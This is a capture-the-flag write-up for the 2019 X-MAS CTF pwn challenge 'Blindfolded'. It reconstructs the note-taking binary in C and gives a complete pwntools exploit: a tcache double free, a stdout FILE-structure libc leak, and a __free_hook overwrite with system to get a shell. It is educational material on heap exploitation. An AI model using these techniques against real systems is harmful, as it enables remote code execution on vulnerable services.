




# X-MAS CTF 2019 - Blindfolded (pwn)

*21 December 2019 by MMunier* 


[folder](Blindfolded/public)

## General Overview
Blindfolded was a pwn challenge in this (2019's) X-Mas CTF.
It was also the first challenge I tried and solved over the course of this CTF. 

As it correctly states heap-challenge binaries are completely useless. That's why all it provided was this [Dockerfile](Blindfolded/public/Dockerfile):

``` Dockerfile
FROM Ubuntu:18.04

# [REDACTED]
```

Frankly as soon as I read that I was hooked, since I've rarely/never such a pwn challenge without the binary provided.
However as anyone who has experience in heap-exploitation can/will tell you this Dockerfile itself is already a great hint. (We'll come back to that later)

## Playing with the service

The service itself seemed like your standard note taking service and the author made it pretty self aware about that.



Judging by the menu Label one could quickly assume with option corresponded to which heap operation.

<ol>
    <li> New    => malloc </li>
    <li> Delete => free </li>
    <li> Exit </li>
    <li value=1337> Realloc => realloc (duh!) </li>
</ol>

As a quite a few challenges already had this binary is one that never prints user input. This is quite telling of a libc-leak-vector which comes afaik from *@angelboy* as well as his challenge *Baby_Tcache* originally from HITCON CTF 2018 with [this writeup by bi0s](https://vigneshsrao.github.io/babytcache/) being a great recource for it.\
This is partially confimed by the Dockerfile since `Ubuntu:18.04` provides `glibc version 2.27` -- the same as baby_tcache.


### Creating a note 
Upon creating a new Note you could specify an index and the size of the alllocation.
It let you write arbitrary content afterwards but as far as I could tell one could not write OOB.



The index was bound between 0 and 9 which lead me to believe that the retuned pointers were stored into some kind of global array that only had 10 slots. You also couldn't allocate over a slot that was alreadly used.

The size of the allocations it would allow were also capped at some value but I never bothered to figure out what exactly it was. I just knew was somewhere larger than 0x100 and smaller than 0x400. 

All in all allocations of an arbitrary size and content are already quite a powerful primitive, however now vulnerability was found in this part of the binary.

### Deleting notes

As expected the vulnerability was in the deleting part of the binary. Confirming the array theory deletion of a note also wanted an index for which Note to delete.



However just deleting an entry that doesn't exist works perfectly fine and still decreases the counter. Since it was hinted that the vulnerability should be pretty obvious I deemed that this was probably an unchecked free.

Using that upon a real allocation you would have a double free which is a heap corruption that is definetly exploitable,especially in this version of libc (*2.27*) with basically *unchecked Tcaches*. \
(If I am losing you already, you'll probably need to read up a bit of background info first (or later) like this one [glibc heap implementation by azeria-labs](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/))

### Realloc and Exit
For completeness sake I'll also include realloc and exit in this writeup also they weren't strictly necessary.
Exit is probably self-explanatory as it does exactly what it says.

Realloc on the other hand was a bit of a wierd addition.
```
Ummmm... But that's forbidden... I could let you... I have a bad feeling about this... 
I'll give you only one chance... But first, let me clean the stack a little bit... Done!
```
It tells you something like that to realloc a single buffer and lets you also call it only one time. Afterwards it only tells you:
`
"No, no, no. I told you that's forbidden and I already made an exception once."`

To this date I still haven't figured out why this addition was made and I'd like to find out -- "but in the end it doesn't really matter ". **¯\\_(ツ)_/¯**

(If you know *@_mmunier* on twitter although im not active on there)

## Rebuilding the binary 

As I deemed it pretty unlikely to be able to exploit it completely blind i tried to rebuild the essential features the binary.

Based on my above mentioned observations this is what I came up with.
``` c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

char banner[] = "Are you ready for another heap challenge?";
char menu[] = "Space %d/10\n1. New\n2. Delete\n3. Exit\n1337. Realloc\n> ";
char input_buf[100];
int space = 0;

char* arr[10];

int do_malloc(){
    int idx, sz;
    printf("idx: ");
    scanf("%d", &idx);
    getchar();
    printf("sz: ");
    scanf("%d", &sz);
    getchar();

    
    if ((space < 10) & (idx < 10) & (idx >= 0)){
        arr[idx] = (char *) malloc(sz);
        printf("data: ");
        read(0, arr[idx], sz);
        space++;
        puts("Created");

    } 
    else
    {

        puts("NO JUST NO STAHP!");
    }
    
}

int do_free(){
    int idx, sz;
    printf("idx: ");
    scanf("%d", &idx);
    getchar();

    if ((space < 10) & (idx < 10) & (idx >= 0)){
        free(arr[idx]);
        space--;
        puts("Deleted");

    } 
    else
    {
        puts("NO JUST NO STAHP!");
    }
    
}

int do_realloc(){
    int idx, sz;
    printf("idx: ");
    scanf("%d", &idx);
    getchar();
    printf("sz: ");
    scanf("%d", &sz);
    getchar();
        
    if ((space < 10) & (idx < 10) & (idx >= 0)){
        arr[idx] = realloc(arr[idx], sz);
        printf("data: ");
        read(0, arr[idx], sz);
        space++;
        puts("Created");

    } 
    else
    {

        puts("NO JUST NO STAHP!");
    }
}

int main(){
    int choice;
    setvbuf(stdin, NULL, _IONBF, 1);
    setvbuf(stdout, NULL, _IONBF, 1);
    puts(banner);
    
    while (1) {
        printf(menu, space);
        scanf("%d", &choice);
        getchar();

        switch (choice)
        {
        case 1:
            do_malloc();
            break;
        
        case 2:
            do_free();
            break;

        case 3:
            exit(0);
            break;

        case 1337:
            do_realloc();
            break;

        default:
            break;
        }
    }
}
```

As you can probably tell non-essential featues were not followed too closely by me. ^^

## The Exploit
The unchecked heap allocations can lead to a double free and so allocations at arbitrary locations. This is done via repeatedly freeing the same pointer and then overwriting the fwd pointer of this tcache-bin (beause of the double free it still in it) to return a chunk in a location chosen by us. [Demo by shellphish/how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c) \
However since we have no info leak over the binary, heap, stack or libc (in hindsight i should've checked if the binary even had PIE enabled), it doesn't let us hijack the controlflow immedieately.

Thus we need a info-leak of libc where all that stuff by angelboy comes in.

Lets say we have a pointer into the libc on our heap.
If the difference between it and the `_IO_2_1_stdout_`-Structure is small enough we can partially overwrite it to point there without much bruteforce, even if ASLR is enabled.\

Overwriting it with specific junk [slides 62+ ](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)leads it to believe that it's buffer is filled with stuff from the bss-section of libc and thus prints it out upon the next invocation of puts/printf ...\
Which is how we leak our libc.

Now the question to ask is how do we get this libc-pointer and how do we allocate a chunk there.
If you've read the Background Info Tcache-Chunks only have a forward pointer to the next free item on their bin.
In contrast to that both the first and the last chunks of "regular" bins (that meaning small, large and unsorted) are equipped with a pointer towards the *main_arena* which is the centralized heap management structure in the libc.

It has a distance of about 0x4000 (I can't remember and I'm to lazy to check) bytes to the *stdout*-Structure.
ASLR only randomizes addresses at page boundaries so the smallest increment it can't make it 0x1000, meaning the last the nibbles of the address are static.
So once we have this pointer we can successfully exploit it with a 1 in 16 chance.

Still leaves the main problem of forcing a chunk into a regular bin.\
The easiest way is to free a chunk of more than *0x410* bytes since Tcaches won't cover them, however as we coudn't allocate anything that large that didn't work.
(I lied to you ealier this was the point where I found the size limitation)\
Luckily there is another way.\
Tcache-bins are capped at a **7** free chunks. If we free more than that the next chunk will result it to go either into the corresponding *fastbin* or the *unsorted bin*.
Leaving us with our much desired fwd-pointer.

With all of that said we can now finally go over the [exploit](Blindfolded/Blindfold_ex.py).\
You can skip the first block if you want, since it is mainly pwntools setup code and some helper functions defined by me.

``` python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challs.xmas.htsp.ro --port 12004 a.out
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('a.out')
libc = ELF("libc-2.27.so")
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challs.xmas.htsp.ro'
port = int(args.PORT or 12004)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


# Helper functions
def do_malloc(idx, sz, text, wait=True):
    io.sendline("1")
    io.readuntil("idx: ")
    io.sendline(str(idx))
    io.readuntil("sz: ")
    io.sendline(str(sz))
    io.readuntil("data: ")
    io.send(text)

    if wait:
        return wait_for_menu()


def do_free(idx, wait=True):
    io.sendline("2")
    io.readuntil("idx: ")
    io.sendline(str(idx))

    if wait:
        wait_for_menu()


def realloc(idx, sz, text, wait=True):
    io.sendline("3")
    io.readuntil("idx: ")
    io.sendline(str(idx))
    io.readuntil("sz: ")
    io.sendline(str(sz))
    io.readuntil("data: ")
    io.send(text)

    if wait:
        return wait_for_menu()

def wait_for_menu():
    return io.readuntil("\n> ")


GDB_OPT = args.GDB
args.GDB = False
```

Were looping here since as I've explained above this only has a 1 in 16 chance of success.

``` python
while True:
    try:
        io = start()

        # Crafting & Overwriting libc-pointer

        do_malloc(0, 0x60, "a")     # soon to be corrupted chunk
        do_malloc(8, 0x100, "a")    # "large chunk"
        do_malloc(9, 0x20, "Blocker\n")  # preventing top-chunk consolidation

        for i in range(8):
            do_free(8)              # filling the Tcache 0x110 freelist and putting it into unsorted
                                    # thus getting a libc pointer
        io.info("Chunk in unsorted")

        do_free(0)                  # Triple free
        do_free(0)          
        do_free(0)

        do_malloc(0, 0x60, "\xd0")      # Target address (address of the unsorted bin chunk)
        do_malloc(1, 0x60, "Hallo")     # Popping chunk from freelist
        do_malloc(2, 0x60, "\x60\x57")  # overwriting the 2 least significant bytes of the libc address


        # Now allocating a fake chunk at target address

        do_free(1)                  # Same as above
        do_free(1)
        do_free(1)

        do_malloc(1, 0x60, "\xd0")      # LSB OF unsorted bin chunk
        do_malloc(3, 0x60, "Hallo2")    # BURN
        do_malloc(4, 0x60, "\x60\x57")  # BURN AGAIN 


        # At this point our crafted address is the next chunk to be returned by malloc

        payload = p64(0x0fbad1800)  
        payload += '\0' * 0x18 
        payload += '\0'

        leak = do_malloc(5, 0x60, payload)   # overwriting stdio with junk
        if len(leak) > 200:
            break
        io.close()
    except:
        io.close()
        pass

if GDB_OPT:
    gdb.attach(io)


# At this point we've leaked the address of libc
io.info(" ========== LEAK ==========\n" + leak)
io.info("(Hex : " + leak.encode("hex") + ")")

libc_base = u64(leak[8:16]) - 0x3ed8b0
io.info(hex(libc_base))
```
Now the part that I've thouroghly explained is over.
But now hijacking the control-flow is straightforward.

On every invocation of free it internally calls the *__free_hook* with the chunk as its first agument. With our arbitrary allocations we get a chunk there and overwrite it with either a gadget or with system and the program we want to execute ("/bin/sh") as its argument.

``` python
# now we'll overwrite the free_hook with system

io.info("Calculating offsets:")
libc.address = libc_base
free_hook_addr = libc.sym.__free_hook
io.info("__free_hook @ " + hex(free_hook_addr))

do_free(9)  # I guess you've seen this before
do_free(9)
do_free(9)

do_malloc(9, 0x20, p64(free_hook_addr))     # Now with full addresses
do_malloc(6, 0x20, "/bin/sh\n\0")           # argument to be called by system
do_malloc(7, 0x20, p64(libc.sym.system))    # free_hook points now to system 

do_free(6, wait=False)  # invoking it with /bin/sh

# we should have a shell after here
io.interactive()
```

At this point we've got a shell and can just cat the flag.

**X-MAS{1_c4n'7_533_my_h34p_w17h0u7_y0000u}**

I also got the [original](Blindfolded/private/real_src.c) source code from there if you want to compare it to [mine](Blindfolded/challenge_guessed.c).

All in all a really cool challenge that once again shows that "heap binaries are useless".

-- MMunier


